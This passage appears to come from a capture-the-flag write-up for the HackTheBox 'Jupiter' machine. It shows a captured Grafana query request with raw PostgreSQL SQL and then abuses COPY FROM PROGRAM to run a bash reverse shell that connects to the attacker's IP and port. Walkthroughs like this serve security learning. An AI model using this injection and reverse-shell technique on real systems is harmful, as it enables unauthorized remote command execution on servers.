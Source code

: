 I viewed the requests and found this `query` request:

{% code overflow="wrap" %}
```http
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
content-type: application/json
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
x-grafana-org-id: 1
x-panel-id: 24
x-plugin-id: postgres
Origin: http://kiosk.jupiter.htb
Content-Length: 484
Connection: close



{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":935}],"range":{"from":"2023-06-07T20:30:32.533Z","to":"2023-06-08T02:30:32.534Z","raw":{"from":"now-6h","to":"now"}},"from":"1686169832533","to":"1686191432534"}
```
{% endcode %}

This query was sending a query to the backend database, and it look like it's vulnerable to SQL injection. We can attempt the PostGreSQL RCE exploit, which involves creating a table `cmd_exec`.

<figure><img src="../../../.gitbook/assets/image (703).png" alt=""><figcaption></figcaption></figure>

Now, we just need to execute a reverse shell with this query:

```sql
COPY cmd_exec FROM program 'bash -c \"bash -i >& /dev/tcp/10.10.14.10/4444 0>&1\"';
```

Then, we would catch a reverse shell on a listener port:

<figure><img src="../../../.gitbook/assets/image (467) (3).png" alt=""><figcaption></figcaption></figure>
